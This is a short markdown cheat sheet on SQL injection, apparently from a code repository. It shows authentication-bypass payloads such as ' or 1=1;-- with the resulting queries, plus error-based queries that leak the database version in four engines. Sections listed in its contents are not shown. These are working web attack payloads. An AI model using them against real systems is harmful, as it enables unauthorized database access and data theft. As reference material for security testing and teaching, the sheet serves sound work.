 # SQL injection
## Table of Contents
- [String Delimiters](#string-delimiters)
- [Closing Out Strings and Functions](#closing-out-strings-and-functions)
- [Return all items in a table](#return-all-items-in-a-table)
- [Error Based SQL Injection](#error-based-sql-injection)
- [Union Based SQL Injection](#union-based-sql-injection)
- [Stacked Queries](#stacked-queries)
- [Reading and Writing Files](#reading-and-writing-files)
- [References](#references)


## 1. String Delimiters
Original SQL
```sql
SELECT * FROM users WHERE username = 'Tostadas'
```

Payload
```sql
' or 1=1;--
```
Result SQL
```sql
SELECT * FROM users WHERE username = '' or 1=1;--'
```

## 2. Closing Out Strings and Functions
Original SQL
```sql
SELECT * FROM users WHERE LOWER(username) = LOWER('Tostadas')
```
Payload
```sql
') or 1=1;--
```
Result SQL
```sql
SELECT * FROM users WHERE LOWER(username) = LOWER('') or 1=1;--')
```

[Return to Table of Contents](#table-of-contents)
## 3. Return all items in the table

Payload Example
```sql
' or 1=1;--
```

[Return to Table of Contents](#table-of-contents)
## 3. Error Based SQL Injection
| DMS/Info | Get version                                                                                                                   | 
|----------|-------------------------------------------------------------------------------------------------------------------------------|
| MSSQL    | `select cast(@@version as integer)`                                                                                           |
| Postgres | `select cast(version() as integer)`                                                                                           |
| MySQL    | `select extractvalue('',concat('>',version()))`                                                                               |
| Oracle   | `to_char(dbms_xmlgen.getxml('select "'\|\| (select substr(banner,0,30) from v$version where rownum=1)\|\|'" from sys.dual'))` |
